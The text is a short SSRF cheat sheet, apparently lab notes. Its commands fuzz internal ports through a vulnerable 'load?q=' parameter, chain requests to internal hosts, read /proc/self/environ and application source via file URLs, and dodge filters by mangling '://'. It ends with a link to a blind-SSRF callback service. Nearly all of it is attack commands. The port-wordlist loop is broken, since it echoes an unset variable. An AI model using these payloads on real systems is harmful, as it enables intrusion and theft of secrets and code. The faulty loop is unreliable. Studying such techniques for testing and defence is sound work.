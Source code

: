 # Fuzzing local ports

## How to generate port wordlist

```for i in {1..65535};do echo $port >> ports.txt;done```

## FFUF

```ffuf -w ./ports.txt:PORT -u "http://<TARGET IP>/load?q=http://127.0.0.1:PORT" -fs 30```

# Interacting with the Target (localports)

```curl -i -s "http://<TARGET IP/load?q=http://127.0.0.1:PORT```

# Interacting with other web servers

```curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=index.html"```

# Chaining multiple SSRFs together

```curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:1"```


```curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/"```


```curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///proc/self/environ" -o -```

# Retrieving local file through the target application

```curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///app/internal_local.py"```

# Evading filters (Error based)

## Removing :// from request

```curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:1"```

# External resources for Blind SSRF

[http://pingb.in](pingb)
